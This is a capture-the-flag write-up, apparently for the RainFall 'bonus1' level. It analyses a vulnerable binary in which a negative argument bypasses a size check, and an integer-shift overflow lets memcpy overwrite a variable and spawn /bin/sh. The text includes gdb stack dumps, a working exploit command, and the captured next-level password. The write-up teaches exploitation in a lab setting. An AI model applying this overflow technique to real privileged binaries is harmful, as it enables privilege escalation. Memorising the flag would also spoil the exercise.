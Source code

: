 ## Step 1: Static & Dynamic Analysis

```c
08048424    int32_t main(int32_t argc, char** argv, char** envp)
08048424    {
08048424        int32_t n = atoi(argv[1]);
08048424        
08048446        if (n > 9)
08048473            return 1;
08048473        
08048473        void buffer;
08048473        memcpy(&buffer, argv[2], n << 2);
08048473        
08048480        if (n == 1464814662)
08048499            execl("/bin/sh", "sh", 0);
08048499        
0804849e        return 0;
08048424    }
```

### Explanation

The program begins by converting the first argument into an integer (`n`) using `atoi()` and then checks if `n > 9`. If this condition is true, the program return.

Next, a buffer is created, and `memcpy()` copies data from the second argument (`argv[2]`) into this buffer. The size of the copied data is determined by `n << 2`, multiplying `n` by 4. The maximum value for `n` is 9, which results in `9 << 2` = `36 bytes` being copied.

Finally, the program checks if `n == 1464814662`. If this condition is met, the program executes `/bin/sh`. This behavior presents a potential vulnerability if we can bypass the initial `n > 9` check and manipulate the value of `n`.

```bash
(gdb) run 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) Y

Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/76wx $esp                                                                              
0xbffffbb0:     0xbffffbc4      0xbffffdcd      0x00000024      0x080482fd
0xbffffbc0:     0xb7fd13e4      0x41414141      0x41414141      0x41414141
0xbffffbd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffbe0:     0x41414141      0x41414141      0x080484b9      0x00000009
0xbffffbf0:     0x080484b0      0x00000000      0x00000000      0xb7e454d3
0xbffffc00:     0x00000003      0xbffffc94      0xbffffca4      0xb7fdc858
0xbffffc10:     0x00000000      0xbffffc1c      0xbffffca4      0x00000000
```

As observed, the stack first stores `36 'A' bytes`, followed by `4 random bytes`, and then the value of `n` (in this example, `0x00000009`). This indicates that the original buffer size is `40 bytes`.

Using this information, the objective is to provide a negative value as the first parameter. This value will become a positive number when `n << 2` is executed, bypassing the `n > 9` check and triggering a `buffer overflow`. This overflow allows overwriting the value of `n` with `1464814662` (`0x574f4c46`).

The first step is to determine a specific negative number that, after the bitwise left shift, results in `44`.

```python
>>> "{:032b}".format((44 >> 2 | (1 << 31)) & 0xFFFFFFFF)
'10000000000000000000000000001011'

>>> (0b10000000000000000000000000001011 << 2) & 0xFFFFFFFF
44

>>> 0b10000000000000000000000000001011 - (1 << 32)
-2147483637
```

## Step 2: Exploiting the Binary

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print(("A" * 40) + "\x57\x4f\x4c\x46"[::-1])')

% cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```